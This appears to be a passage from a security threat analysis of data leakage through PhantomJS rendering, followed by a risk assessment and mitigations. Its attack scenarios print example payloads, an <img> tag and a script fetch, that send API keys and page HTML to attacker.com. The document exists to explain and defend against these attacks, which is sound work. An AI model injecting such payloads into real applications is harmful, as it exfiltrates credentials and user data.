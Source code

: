 **2. Attack Scenarios and Examples:**

Let's illustrate potential attack scenarios:

* **Scenario 1: Leaking API Keys through Image Requests:**
    * An attacker finds a feature where users can generate a PDF of a dashboard. The dashboard data is fetched using an internal API key embedded in the HTML rendered by PhantomJS.
    * The attacker crafts a malicious payload (e.g., through a vulnerability in the dashboard data input) that includes an `<img>` tag: `<img src="https://attacker.com/log?key=[API_KEY_HERE]">`.
    * When PhantomJS renders the page, it attempts to load the image from the attacker's server, inadvertently sending the API key in the URL.

* **Scenario 2: Exfiltrating Data via JavaScript:**
    * The application allows users to embed custom HTML in a report generation feature.
    * The attacker injects JavaScript code: `<script>fetch('https://attacker.com/collect', {method: 'POST', body: document.documentElement.outerHTML});</script>`.
    * If JavaScript execution is enabled in PhantomJS, this script will send the entire rendered HTML content (potentially containing sensitive data) to the attacker's server.

* **Scenario 3: Exploiting Server-Side Template Injection:**
    * The application uses a vulnerable templating engine to generate the HTML for PhantomJS.
    * The attacker injects malicious template code that reads environment variables or internal files and embeds their content within the generated HTML, which is then captured in the PDF or screenshot.

* **Scenario 4: Leaking Data through Error Messages:**
    * If the application doesn't handle errors gracefully when generating content for PhantomJS, error messages containing sensitive information (e.g., database connection strings, file paths) might be included in the rendered output.

**3. Risk Severity Assessment:**

The "High" severity rating is appropriate when sensitive information is exposed. However, it's crucial to further refine the risk assessment based on:

* **Sensitivity of the Data:**  Exposure of credentials or financial data is a higher risk than exposure of non-critical application metadata.
* **Accessibility of the Output:** Is the output publicly accessible, restricted to authenticated users, or only available internally? Public exposure significantly increases the risk.
* **Impact of the Disclosure:** What are the potential consequences of the information being leaked? Financial loss, reputational damage, legal repercussions?

**4. Mitigation Strategies - Deep Dive and Enhancements:**

Let's expand on the provided mitigation strategies and add more:

* **Carefully Review the Content Being Rendered:** This is paramount.
    * **Input Sanitization and Validation:**  Strictly validate and sanitize all user-provided data before it's used in the content rendered by PhantomJS. Use context-aware escaping (e.g., HTML escaping for HTML content).
    * **Principle of Least Privilege for Data:** Only include the necessary data in the content rendered by PhantomJS. Avoid fetching and including sensitive information if it's not strictly required for the output.
    * **Content Security Policy (CSP):** While PhantomJS's CSP support might be limited, implementing CSP headers for the *original* content being rendered (before it reaches PhantomJS) can help mitigate some injection attacks.
    * **Regular Security Audits:**  Periodically review the code that generates content for PhantomJS to identify potential vulnerabilities.

